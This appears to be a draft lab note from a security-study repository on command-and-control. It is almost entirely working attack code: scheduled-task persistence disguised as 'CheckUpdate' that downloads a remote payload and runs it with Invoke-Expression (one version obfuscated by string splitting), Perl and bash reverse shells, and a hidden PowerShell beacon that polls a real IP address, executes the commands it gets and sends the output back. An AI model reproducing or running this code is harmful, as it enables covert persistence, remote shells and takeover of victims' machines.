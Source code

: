 # Command&Control [draft]

## Setup Lab
- WiFiDuck
- Windows guest
- Remote Host (C2)

Windows Task
$a = New-ScheduledTaskAction -Execute 'powershell' -Argument '$rawcmd = Invoke-webrequest -URI https://raw.githubusercontent.com/roccosicilia/InfoSecStudy/main/Labz/statics/payload_tast_c2_sample.txt -UseBasicParsing; Invoke-Expression $rawcmd;';

$a = New-ScheduledTaskAction -Execute 'powershell' -Argument '$JXA8LuZ6wZqcb2vk6MG1qrV0C3qJ9guNdvJlRLFn3p2mns9HeyFJPfyPEY8TvOnUPVj3fRZWeYU4UYPLf6aSKXhPNRUZGZ9FQoRHKXMfVX3uCMIaP9fEqGULQJMIfbXDoU3XUSW1bOF8U3IZdoCsxVSEF7hXcp9hE9NddNfluRDXBU23u3QbNX0lpyehJCYzYxc9rM5LALWkHt9Nts8Ajpf60MKavUE9vYdUx31rbBp0TRLgSRCPNyQc6aihywFNccrVRUCInuphzzJEH8fOiYk1J3MM1htFvWHoqoUeh9RUNTcVY1IJBYmSDwC7K3ZdmY2fubYdgBkJNhDL1o4nvfXthbYVK = 'Inv'+'OKE-'+'webre'+'QuEsT' -URI https://raw.githubusercontent.com/roccosicilia/InfoSecStudy/main/Labz/statics/payload_tast_c2_sample.txt -UseBasicParsing; 'In'+'VokE-'+'E'+'XpRes'+'sIOn' $JXA8LuZ6wZqcb2vk6MG1qrV0C3qJ9guNdvJlRLFn3p2mns9HeyFJPfyPEY8TvOnUPVj3fRZWeYU4UYPLf6aSKXhPNRUZGZ9FQoRHKXMfVX3uCMIaP9fEqGULQJMIfbXDoU3XUSW1bOF8U3IZdoCsxVSEF7hXcp9hE9NddNfluRDXBU23u3QbNX0lpyehJCYzYxc9rM5LALWkHt9Nts8Ajpf60MKavUE9vYdUx31rbBp0TRLgSRCPNyQc6aihywFNccrVRUCInuphzzJEH8fOiYk1J3MM1htFvWHoqoUeh9RUNTcVY1IJBYmSDwC7K3ZdmY2fubYdgBkJNhDL1o4nvfXthbYVK;';

$t = New-ScheduledTaskTrigger -AtLogon;

Register-ScheduledTask -Action $a -Trigger $t -TaskPath "CheckUpdate" -TaskName "CheckUpdate" -Description "Check update."

## Villain C2

``` perl
# simple perl payload
perl -MIO::Socket::INET -e '$s=IO::Socket::INET->new(PeerAddr=>"*LHOST*",PeerPort=>*LPORT*,Proto=>"tcp");open(STDIN, "<&", $s);open(STDOUT, ">&", $s);open(STDERR, ">&", $s);exec "/bin/bash"'
```

``` bash
# very simple bash payload
nohup /bin/bash -c 'bash -i >& /dev/tcp/*LHOST*/*LPORT* 0>&1 &'
```

test

Start-Process $PSHOME\powershell.exe -ArgumentList {$ConfirmPreference="None";$s='15.160.157.227:8080';$i='892957-d12d93-6f28d8';$p='http://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/892957/$env:COMPUTERNAME/$env:USERNAME -Headers @{"Authorization"=$i};for (;;){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/d12d93 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=Invoke-Expression $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$x=Invoke-RestMethod -Uri $p$s/6f28d8 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}} -WindowStyle Hidden